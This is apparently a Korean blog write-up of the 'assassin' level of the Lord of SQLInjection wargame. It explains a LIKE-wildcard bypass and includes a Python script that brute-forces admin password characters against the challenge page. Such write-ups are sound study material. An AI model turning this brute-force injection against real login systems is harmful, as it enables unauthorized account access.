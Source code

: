 ```yaml
---
layout: single
title: "[Lord of SQLInjection] assassin write-up"
date: 2025-04-25 20:22 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## Lord of SQLInjection (assassin)

### 풀이

이번 문제는 pw 파라미터에 싱글쿼터를 필터링하고 있다. 이를 우회하고 id 값이 admin이면 해결인 것 같다.

![image-20250425222236398](/images/2025-04-25-los-assassin/image-20250425222236398.png)

<br>

pw 파라미터 값이 들어가는 쿼리를 살펴보면 싱글쿼터로 각각 닫혀져 있어 like 연산자에서 싱글쿼터를 굳이 입력하지 않아도 해결 가능할 것 같다. 아 근데 where 조건이 pw였다. like 연산자는 % 문자로 모든 값을 만족시킬 수 있다. 따라서 넣어보면 id가 guest로 나온다.

![image-20250425222630868](/images/2025-04-25-los-assassin/image-20250425222630868.png)

<br>

아래 코드로 string 모듈을 사용해 들어갈 수 있는 모든 문자를 하나씩 앞에 넣어 확인해보면 guest의 password 첫 글자가 9라는거 말고는 Hello admin 문자열이 안나온 걸로 봐서 admin도 첫 글자가 9라는 것을 예상해볼 수 있다.

```python
import requests
import string

password_all = string.digits + string.ascii_letters + string.punctuation
url = "https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php"

cookie = {"PHPSESSID": "l4fo5d8u56opaucpiffcbfvver"}

for i in range(0, len(password_all)):
    param = {"pw": f"{password_all[i]}%"}
    r = requests.get(url=url, cookies=cookie, params=param)
    print(r.text.splitlines()[0])
    if "Hello admin" in r.text:
        print(f"{password_all[i]}")
        break
    if "hello guest" in r.text:
        print(f"{password_all[i]}")

```

![image-20250425223906813](/images/2025-04-25-los-assassin/image-20250425223906813.png)

<br>

9를 pw 앞에 넣어 테스트해보면 90이 나오고 또 Hello admin 문자열은 보이지 않는다..

![image-20250425224122784](/images/2025-04-25-los-assassin/image-20250425224122784.png)

<br>

다시 90을 넣고 코드를 돌려보면 admin은 902로 시작한다는 것을 알 수 있고, solve!

![image-20250425224243944](/images/2025-04-25-los-assassin/image-20250425224243944.png)

![image-20250425224312223](/images/2025-04-25-los-assassin/image-20250425224312223.png)